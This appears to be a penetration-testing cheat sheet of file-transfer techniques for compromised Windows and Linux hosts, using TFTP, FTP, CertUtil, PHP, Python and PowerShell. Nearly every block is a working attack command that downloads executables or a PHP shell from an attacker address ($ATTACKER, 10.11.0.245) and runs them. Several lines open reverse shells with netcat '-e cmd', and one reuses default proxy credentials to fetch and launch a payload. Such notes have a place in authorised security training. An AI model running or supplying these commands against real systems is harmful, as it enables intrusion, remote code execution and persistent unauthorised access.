 **TFTP**

```text
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

**FTP**

```text
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```

**CertUtil**

```text
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

**PHP**

```text
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

**Python**

```text
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

**HTTP: Powershell**

```text
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
```
